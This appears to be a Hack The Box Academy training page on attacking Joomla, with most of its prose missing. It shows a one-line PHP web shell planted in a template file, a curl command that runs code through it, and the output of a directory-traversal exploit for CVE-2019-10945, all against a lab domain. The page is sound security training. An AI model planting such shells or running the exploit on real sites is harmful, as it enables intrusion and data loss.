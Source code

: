<!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/113/section/1210
// Platform Version: V1
// Module ID: 113
// Module Name: Attacking Common Applications
// Module Difficulty: Medium
// Section ID: 1210
// Section Title: Attacking Joomla
// Page Title: Hack The Box - Academy
// Page Number: 06
-->

# Attacking Joomla

**Module Name:** Attacking Common Applications **Page Number:** 06

#### 

#### ATTACKING COMMON APPLICATIONS

# Attacking Joomla

## Abusing Built-In Functionality

![https://academy.hackthebox.com/storage/modules/113/joomla_admin.png](https://academy.hackthebox.com/storage/modules/113/joomla_admin.png)

![https://academy.hackthebox.com/storage/modules/113/joomla_templates.png](https://academy.hackthebox.com/storage/modules/113/joomla_templates.png)

![https://academy.hackthebox.com/storage/modules/113/joomla_customise.png](https://academy.hackthebox.com/storage/modules/113/joomla_customise.png)

``` php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```

![https://academy.hackthebox.com/storage/modules/113/joomla_edited.png](https://academy.hackthebox.com/storage/modules/113/joomla_edited.png)

``` shell-session
[!bash!]$ curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Leveraging Known Vulnerabilities

``` shell-session
[!bash!]$ python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
 
# Exploit Title: Joomla Core (1.5.0 through 3.9.4) - Directory Traversal && Authenticated Arbitrary File Deletion
# Web Site: Haboob.sa
# Email: research@haboob.sa
# Versions: Joomla 1.5.0 through Joomla 3.9.4
# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945    
 _    _          ____   ____   ____  ____  
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \ 
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ < 
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/ 
                                                                       


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
htaccess.txt
index.php
robots.txt
web.config.txt
```

## Moving On

# 

# 

#### Questions

####